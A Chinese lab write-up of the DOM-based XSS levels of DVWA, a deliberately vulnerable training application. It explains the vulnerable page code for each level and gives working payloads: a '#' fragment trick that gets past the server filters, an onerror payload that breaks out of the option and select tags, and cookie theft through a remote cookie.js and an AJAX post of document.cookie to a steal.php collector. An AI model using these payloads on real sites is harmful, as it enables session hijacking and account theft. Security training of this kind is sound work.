总结了dvwa中的dom型xss关卡
Low 代码复现如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <form name="XSS" method="get"> <p>Please choose a language:</p> <select name="default"> <script> if(document.location.href.indexOf('default=')>=0){ var lang = document.location.href.substring(document.location.href.indexOf('default=')+8); document.write("<option value='"+lang+"'>"+decodeURI(lang)+"</option>"); document.write("<option value='' disabled='disabled'>----</option>"); } document.write("<option value='English'>English</option>"); document.write("<option value='French'>French</option>"); document.write("<option value='Spanish'>Spanish</option>"); document.write("<option value='German'>German</option>"); </script> </select> <input type='submit' value='Select'> </form> <?php session_start(); setcookie('security','low',time()+3600); ?>
这关没有php代码，但是我们可以仔细一步步分析js代码
首先明白几个对象：
document:每个载入浏览器的html文档都会成为document对象
location:location对象包含了当前相关的url信息，href是location对象的属性，location.href能返回完整的URL
几个方法：
indexOf：string.indexOf(searchvalue)返回搜索的子字符串在原字符串中第一次出现 的位置，如果搜索的字符串不存在，则返回-1
substring:string.substring(start，stop)提取字符串中介于两个指定下标之间的字符
从start处开始提取，到stop位置但不包括stop位置的字符，如果stop参数省略，则返回从start处开始到结束的字符
明白了这几个对象和方法后再来看这串js代码
If语句执行条件是检查url中是否含有’default=’这个字符串，如果有则执行if语句
也就是说if语句执行条件是必须通过GET方式传入一个default值才会执行if语句
执行之后定义一个变量lang，存储的是url中’default=’之后到结束的字符，也就是default的值
之后将lang进行url解码然后写入option标签中
这里没有php代码，也就是并没有与服务器交互，但是我们可以通过dom树解析js代码进行xss注入，也就是通过GET一个default值注入JS代码，然后执行if语句，就可以执行我们注入的JS代码，这就属于dom型的xss
于是我们输入default:
1 <script > alert(“xss”)</script >

果然出现了弹窗
接下来考虑窃取cookie值
按之前的方法利用ajax将cookie值传入steal.php，再将cookie值写入数据库


成功截取到cookie值
Medium 代码复现如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 <form name="XSS" method="get"> <p>Please choose a language:</p> <select name="default"> <script> if(document.location.href.indexOf("default=")>=0){ var lang = document.location.href.substring(document.location.href.indexOf("default=")+8); document.write("<option value='"+lang+"'>"+decodeURI(lang)+"</option>"); document.write("<option value='' disabled='disabled'>----</option>"); } document.write("<option value='English'>English</option>"); document.write("<option value='French'>French</option>"); document.write("<option value='Spanish'>Spanish</option>"); document.write("<option value='German'>German</option>"); </script> </select> <input type='submit' value='Select'> </form> <?php session_start(); setcookie('security','medium',time()+3600); if(array_key_exists('default',$_GET) && $_GET['default'] != NULL){ if(stripos($_GET['default'],'<script') !== false){ header("location:?default=English"); } } ?>
可以看出在服务器端对GET的default值进行了过滤，一旦检测到defalut值中含有<script，就立刻重定向到default值为English的页面
解决方法是利用字符#，该字符后的数据不会发送到服务器端，从而绕过服务器的过滤，输入
1 #default=<script > alert(“xss”)</script >

在输入
1 #default=<script src =”http://127.0.0.1/demo/xss(stored)/cookie.js” > </script >

成功窃取到cookie值
还有一种方法就是通过触发onerror事件来执行js代码
输入
1 <img src =# onerror =(alert(”xss”)) >

但是发现并没有弹框，为什么呢，仔细看一下代码发现img标签是包含在option标签里面的，所以img标签并不会被解析
这里要闭合option标签和select标签才可以解析出img标签
输入
1 </option > </select > <img src =# onerror =(alert(‘xss’)) >

成功弹框
但是因为我们提前闭合了option和select标签，所以后面的select结构都会被破坏，整个页面结构都被破坏了，所以这种方法并不是很实用

再试试通过onerror事件执行ajax代码，将cookie值发送给steal.php，然后写入数据库
输入
1 <img src =# onerror ='var url="http://127.0.0.1/demo/xss(reflected)/steal.php";var postStr="data="+document.cookie;var ajax=null;if(window.XMLHttpRequest){ajax=new XMLHttpRequest();}else if(window.ActiveXObject){ajax=new ActiveXObject("Microsoft.XMLHTTP");}else{ajax=null;}ajax.open("POST", url, true);ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");ajax.send(postStr);' >

成功截取到cookie值
High 代码复现如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 <form name="XSS" method="get"> <p>Please choose a language:</p> <select name="default"> <script> if(document.location.href.indexOf("default=")>=0){ var lang = document.location.href.substring(document.location.href.indexOf("default=")+8); document.write("<option value='"+lang+"'>"+decodeURI(lang)+"</option>"); document.write("<option value='' disabled='disabled'>----</option>"); } document.write("<option value='English'>English</option>"); document.write("<option value='French'>French</option>"); document.write("<option value='Spanish'>Spanish</option>"); document.write("<option value='German'>German</option>"); </script> </select> <input type='submit' value='Select'> </form> <?php session_start(); setcookie('security','high',time()+3600); if(array_key_exists('default',$_GET) && $_GET['default'] != NULL){ $default=$_GET['default']; switch($default){ case 'English':break; case 'French':break; case 'Spanish':break; case 'German':break; default:header("location:?default=English"); } } ?>
可以看出default值如果不是选项中的四个值，就重定向到选项为English
跟上一关一样，依然可以采用字符#绕过过滤
输入
1 ?#default=<script > alert(“xss”)</script >

成功弹框
输入
1 ?#default=<script src =cookie.js > </script >

成功截取到cookie值